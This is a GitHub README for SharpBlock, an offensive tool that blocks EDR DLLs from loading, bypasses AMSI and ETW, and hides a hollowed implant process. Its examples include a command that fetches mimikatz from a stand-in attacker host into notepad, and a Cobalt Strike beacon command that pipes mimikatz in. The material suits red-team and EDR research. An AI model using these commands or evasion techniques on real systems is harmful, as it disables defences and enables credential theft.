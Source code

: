 # SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.  

## Features

* Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
* Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
* Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike)
* Implanted process is hidden to help evade scanners looking for hollowed processes.
* Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
* Patchless ETW bypass 

```
SharpBlock by @_EthicalChaos_
  DLL Blocking app for child processes x64

  -e, --exe=VALUE            Program to execute (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -n, --name=VALUE           Name of DLL to block
  -c, --copyright=VALUE      Copyright string to block
  -p, --product=VALUE        Product string to block
  -d, --description=VALUE    Description string to block
  -s, --spawn=VALUE          Host process to spawn for swapping with the target
                               exe
  -w, --show                 Show the lauched process window instead of the
                               default hide
      --disable-bypass-amsi  Disable AMSI bypassAmsi
      --disable-bypass-cmdline
                             Disable command line bypass
      --disable-bypass-etw   Disable ETW bypass
      --disable-header-patch Disable process hollow detection bypass
  -h, --help                 Display this help
  ```

## Examples

### Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL

```
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
```

### Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL

```
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```
*Note, for the `upload_file` beacon command, load upload.cna into Cobalt Strike's Script Manager*



Accompanying Blog Posts: 
 * https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
 * https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
 * https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
 
